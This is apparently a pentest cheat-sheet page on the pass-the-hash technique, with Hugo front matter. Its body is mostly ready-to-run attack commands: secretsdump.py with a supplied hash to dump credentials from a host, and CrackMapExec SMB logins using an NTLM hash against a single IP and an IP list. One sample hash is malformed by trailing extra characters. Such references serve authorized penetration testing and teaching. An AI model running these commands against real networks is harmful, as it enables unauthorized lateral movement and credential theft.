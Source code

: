 ```yaml
---
title : "Pass-the-hash"
# pre : ' '
description : "Use the hash of a user to authenticate around the network."
date : 2020-07-08T09:50:00+02:00
# hidden : true
# draft : true
weight : 60
# tags : ['']
---
```


---

Use the hash of a user to authenticate around the network.

### Secretsdump.py

```plain
secretsdump.py offsec/Taskscheduler -hashes 4aed682cfe9b5ccf87903c166d11d7afMZWA 10.10.10.10
```

### CrackmapExec

```plain
cme smb 10.10.10.10 -u johndo -H 8db8440e2ae574cc606de9d7be466820
cme smb ip-list.txt -u johndo -H 8db8440e2ae574cc606de9d7be466820
```

[En.hackndo.com - Pass-The-Hash](https://en.hackndo.com/pass-the-hash/)
